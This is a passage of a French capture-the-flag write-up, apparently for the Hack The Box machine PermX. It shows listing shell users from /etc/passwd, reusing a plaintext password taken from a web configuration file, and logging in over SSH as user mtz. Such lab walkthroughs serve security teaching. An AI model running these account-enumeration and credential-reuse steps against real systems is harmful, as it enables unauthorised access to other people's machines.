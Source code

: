 ### Identification des utilisateurs système

Vérification des utilisateurs locaux avec un shell :

```bash
cat /etc/passwd | grep '/bin/bash'
```

**Résultat :** L'utilisateur `mtz` a accès shell.

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        <strong>Credentials en clair trouvés !</strong> Ces identifiants sont potentiellement réutilisés ailleurs sur le système.
    </p>
</div>

<div class="bg-cyan-100 dark:bg-cyan-900/20 border-l-4 border-cyan-500 p-4 my-4 rounded-r-lg">
    <p class="text-cyan-800 dark:text-cyan-200">
        <i class="fas fa-lightbulb mr-2 text-cyan-500"></i>
        <strong>Technique :</strong> Les fichiers de configuration d'applications web sont une mine d'or pour le pivoting — ils contiennent souvent des credentials valides réutilisés sur le système.
    </p>
</div>


## 🔐 Phase 6 — Accès SSH et user flag

### Connexion SSH

Tentative de connexion SSH avec le mot de passe découvert :

```bash
ssh mtz@permx.htb
```

**Mot de passe :** `03F6lY3uXAP2bkW8`

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        Connexion SSH réussie!
    </p>
</div>

### Validation de l'accès

```bash
id
whoami
```

<div class="bg-gray-100 dark:bg-gray-800 p-4 rounded-lg my-4 font-mono text-sm">
    <div class="text-gray-700 dark:text-gray-300">
        uid=1000(mtz) gid=1000(mtz) groups=1000(mtz)
    </div>
</div>
